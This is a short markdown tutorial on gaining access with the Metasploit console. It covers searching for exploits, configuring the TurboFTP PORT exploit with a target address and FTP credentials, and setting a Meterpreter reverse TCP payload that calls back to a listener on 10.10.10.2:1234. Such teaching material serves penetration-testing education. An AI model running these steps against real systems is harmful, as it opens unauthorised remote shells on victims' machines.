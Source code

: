 # Gaining access with Metasploit {-}

**Metasploit** is an open source framework used for penetration testing and exploit development. **Metasploit** gives a wide array of 
community contributed exploits and attack vectors. It's also used to automate your own exploits.

The basic workflow to exploit a target by using **MSFConsole** is:  
- Vulnerable service identification
- Search for a proper exploit fot that service
- Loading and configuration of that exploit
- Loading and configuration of the the desired payload
- Run of the exploit code and get access to the vulnerable machine

You can start **Metasploit** by typing:

```bash
msfconsole
```

## Search for a proper exploit {-}

```bash
msf6 > search <my search term>
```

another way to look for exploit is by using the show command.

```bash
msf6 > show exploits
```

It's not a good way for finding exploits as Metasploit have more than thousands of exploits.

## Use the desired exploit {-}

```bash
msf6 > use exploit/windows/ftp/turboftp_port
msf6 exploit(turboftp_port) >
```

At this point you can check the exploit info by typing:

```bash
msf6 exploit(turboftp_port) > info
```

or go back to the main msf console by typing

```bash
msf6 exploit(turboftp_port) > back
```
The command **show options** gives you the informations needed to use the exploit and the **set** command is needed to configure those options.

```bash
msf6 exploit(turboftp_port) > show options
msf6 exploit(turboftp_port) > set RHOST 10.10.10.5
msf6 exploit(turboftp_port) > set FTPUSER god
msf6 exploit(turboftp_port) > set FTPASS S@v3TH3Qu33n!
```

## Run the exploit {-}

To run an exploit, a **Payload** is needed. The payload is used to get:  

- a shell  
- a vnc or rdp connection  
- a **Meterpreter shell**  
- the execution of an attacker-supplied application  

To list the payloads of the specific choosen exploit, use the following command

```bash
msf6 exploit(turboftp_port) > show payloads
```

You can then choose the payload you want with the **set** command:

```bash
msf6 exploit(turboftp_port) > set payload windows/meterpreter/reverse_tcp
```

And again configure the payload and you will be good to go for launching the attack.

```bash
msf6 exploit(turboftp_port) > set LHOST 10.10.10.2
msf6 exploit(turboftp_port) > set LPORT 1234

msf6 exploit(turboftp_port) > exploit
```